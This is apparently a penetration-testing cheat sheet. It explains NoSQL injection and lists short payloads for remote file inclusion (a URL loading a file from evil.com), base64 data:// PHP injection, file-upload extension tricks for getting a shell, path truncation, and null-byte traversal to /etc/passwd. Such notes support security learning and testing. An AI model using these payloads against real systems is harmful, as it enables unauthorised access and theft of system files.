 NoSQL injection is a web security vulnerability that allows the attacker to have control over the database. A NoSQL injection happens by sending queries via untrusted and unfiltered web application input, which leads to leaked unauthorized information. In addition, the attacker can use the NoSQL injection to perform various operations such as modifying data, escalating privileges, DoS attacks, and others.

To exploit NoSQL injection within the web application, first, you need to find an entry point that doesn't sanitize the user's input. Next, you need to understand how the web application passes the request to the database! Once you find an entry point, passing queries could be varied. Sometimes, the web app accepts the user's input via GET or POST queries, and sometimes web applications accept a JSON object, as is the case with APIs.




### Path Traversal - Remote File Inclusion

```http
# Example
http://example.com/downloads/getFile?name=http://evil.com/attack.txt
```

```http
# Encode your PHP payload as base64
https://site.com/home.php?page=data://text/plain;base64,base64encoded
```



### File Upload Vulnerabilities

+ Upload file which contains your code to get shell
+ Change extension
  + evil.php.jpg
  + evil.php.unknown



### Path Truncation

+ Abuse MAXPATHLEN
  + Maximal path length in the system
  + Automatic truncation
+ Make your query so long that ""*.xxx" will be truncated 
  + Easiest way: **add characters after**



### NULL-byte

+ PHP is based on C 

+ C uses the null byte as a string terminator

  ```http
  http://example.com/getFile?name=../../../../etc/passwd%00
  ```

  
